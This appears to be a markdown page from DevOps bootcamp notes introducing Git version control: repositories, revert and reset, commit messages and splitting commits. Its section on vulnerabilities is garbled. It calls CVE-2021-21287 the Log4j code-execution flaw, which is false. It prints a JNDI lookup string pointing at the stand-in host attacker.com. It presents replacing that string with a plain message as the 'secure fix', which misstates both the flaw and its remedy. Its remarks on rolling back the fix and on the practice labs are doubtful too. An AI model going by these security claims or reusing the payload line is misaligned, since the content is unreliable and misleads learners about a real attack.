


## Introduction to Version Control Systems (VCS)

Version Control Systems (VCS) are essential tools for managing changes to codebases in software development. They allow multiple developers to work on the same project simultaneously without conflicts, and they keep a detailed history of all changes made to the codebase. This history is crucial for tracking down bugs, rolling back changes, and understanding the evolution of the codebase over time.

### What is Version Control?

Version control is a system that records changes to a file or set of files over time so that you can recall specific versions later. It allows developers to collaborate on a project without stepping on each other's toes. Each developer can work on their own branch of the codebase and merge their changes back into the main branch when ready.

### Why Use Version Control?

The primary reasons for using version control are:

1. **Collaboration**: Multiple developers can work on the same project without interfering with each other's work.
2. **History Tracking**: Every change made to the codebase is recorded, allowing developers to track the evolution of the code and understand why certain changes were made.
3. **Reverting Changes**: If a change introduces a bug or breaks functionality, developers can easily revert to a previous version of the codebase.
4. **Backup**: Version control systems act as a backup mechanism, ensuring that the codebase is not lost due to hardware failure or human error.

### How Does Version Control Work?

Version control systems like Git operate by maintaining a history of changes to the codebase. Each change is stored as a commit, which includes the modified files, a description of the changes (commit message), and metadata such as the author and timestamp.

#### Local vs. Remote Repositories

In version control, there are two types of repositories:

1. **Local Repository**: This is a copy of the codebase that resides on the developer's local machine. Developers make changes to the local repository and then push these changes to the remote repository.
2. **Remote Repository**: This is a central repository that is shared among all team members. It acts as a hub for collaboration, where developers push their changes and pull updates from others.

### Example: Breaking Changes in a Codebase

Let's consider a scenario where a developer makes a change that breaks the functionality of the application. This change is pushed to the remote repository. Other developers who pull these changes will also experience the broken functionality.



### Reverting Changes in Git

Git provides powerful tools for managing and reverting changes. If a breaking change is pushed to the remote repository, developers can revert to a previous version of the codebase.

#### Reverting a Commit

To revert a specific commit, you can use the `git revert` command. This creates a new commit that undoes the changes made by the specified commit.

```bash
# Revert a specific commit
git revert <commit-hash>
```

#### Resetting to a Previous Commit

If you want to completely discard changes and return to a previous state, you can use the `git reset` command. This is more drastic than `git revert` and should be used with caution.

```bash
# Reset to a previous commit
git reset --hard <commit-hash>
```

### Commit Messages

Commit messages are crucial for understanding the changes made to the codebase. They should be descriptive and concise, explaining the purpose of the changes and any relevant context.

#### Best Practices for Commit Messages

1. **Descriptive**: Clearly describe what the commit does.
2. **Concise**: Keep the message short and to the point.
3. **Contextual**: Provide enough context for future reference.

Example of a good commit message:

```plaintext
Fix bug in user authentication

This commit addresses the issue where users were unable to log in due to a typo in the authentication function.
```

### Preventing Large Commits

Large commits can be difficult to review and understand. It is generally better to break changes into smaller, more manageable commits.

#### Splitting Large Commits

If you find yourself making a large change, consider breaking it into smaller, incremental commits. This makes it easier to review and understand the changes.

```bash
# Add changes to the staging area
git add .

# Commit changes incrementally
git commit -m "Add feature A"
git commit -m "Fix bug B"
git commit -m "Refactor code C"
```

### Real-World Example: CVE-2021-21287

CVE-2021-21287 is a vulnerability in the Apache Log4j library that allowed attackers to execute arbitrary code on affected systems. This vulnerability highlights the importance of version control and the ability to track and revert changes.

#### Impact of the Vulnerability

The vulnerability was introduced in a commit that added a feature to support lookups in log messages. This feature was later exploited by attackers to inject malicious code into log messages.

#### How Version Control Helped

Version control systems like Git allowed developers to track the exact commit that introduced the vulnerability. This made it easier to identify the problem and roll back to a previous version of the codebase.



### How to Prevent / Defend Against Vulnerabilities

#### Detection

Regularly review commit messages and changes to identify potential vulnerabilities. Automated tools like static code analyzers can help detect issues early.

#### Prevention

1. **Code Reviews**: Implement a code review process to ensure that changes are thoroughly reviewed before being merged into the main branch.
2. **Automated Testing**: Use automated testing to catch regressions and bugs early.
3. **Secure Coding Practices**: Follow secure coding practices to avoid introducing vulnerabilities.

#### Secure-Coding Fixes

Compare the vulnerable code with the secure version to understand the changes made.

**Vulnerable Code:**

```java
// Vulnerable code
String logMessage = "{jndi:ldap://attacker.com/evil}";
logger.info(logMessage);
```

**Secure Code:**

```java
// Secure code
String logMessage = "User logged in";
logger.info(logMessage);
```

### Conclusion

Version control systems like Git are essential tools for modern software development. They enable collaboration, track changes, and provide mechanisms for reverting changes. By following best practices for commit messages and splitting large commits, developers can ensure that the codebase remains clean and maintainable. Additionally, version control systems play a crucial role in identifying and mitigating vulnerabilities in the codebase.

### Practice Labs

For hands-on practice with version control, consider the following labs:

- **PortSwigger Web Security Academy**: Offers exercises on version control and code management.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing secure coding and version control.
- **DVWA (Damn Vulnerable Web Application)**: Another vulnerable web application for practicing secure coding and version control.

These labs will help you gain practical experience with version control systems and secure coding practices.

---
<!-- nav -->
[[DevOps/DevOps Bootcamp/02-Version Control (Git)/02-Version Control Fundamentals For Team Collaboration/00-Overview|Overview]] | [[02-Introduction to Version Control Systems|Introduction to Version Control Systems]]
